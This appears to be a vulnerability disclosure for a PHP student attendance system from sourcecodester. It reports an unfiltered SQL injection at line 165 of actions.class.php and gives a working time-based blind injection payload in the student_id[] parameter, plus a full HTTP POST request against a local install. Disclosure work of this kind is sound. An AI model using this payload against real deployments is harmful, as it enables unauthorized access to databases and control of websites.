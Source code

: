 # Simple Student Attendance System has a vulnerability of SQL injection
Source code download：https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html
version：2023/11/30
Vulnerability description: The system has a SQL injection vulnerability, and attackers can obtain database information and website control permissions by inserting malicious SQL statements.
The cause of the vulnerability: The vulnerability occurs on line 165 of classes\actions.class.php. The input from the user has not been filtered, resulting in the execution of malicious SQL statements
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111608669.jpg)
Vulnerability verification: After setting up the system, access the local port 80
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609232.png)

At the attendance function, capture and save the traffic package for attendance
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609233.png)
Pass the payload in the student_id[] parameter:
```php
83'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```

![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609234.png)

The response will pause for a multiple of 3 seconds, which is 6 seconds, successfully verifying that there is a SQL injection vulnerability at this location.

payload:

```php
POST /php-attendance/ajax-api.php?action=save_attendance HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 150
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=rbh6d8kdgfbbvame4b8ul5ujmn
Referer: http://127.0.0.1/php-attendance/?page=attendance&class_id=1&class_date=2023-12-05
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

class_date=2023-12-05&class_id=1&student_id%5B%5D=83%27and%28select%2Afrom%28select%2Bsleep%283%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
```

sqlmap verification：

![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609236.png)
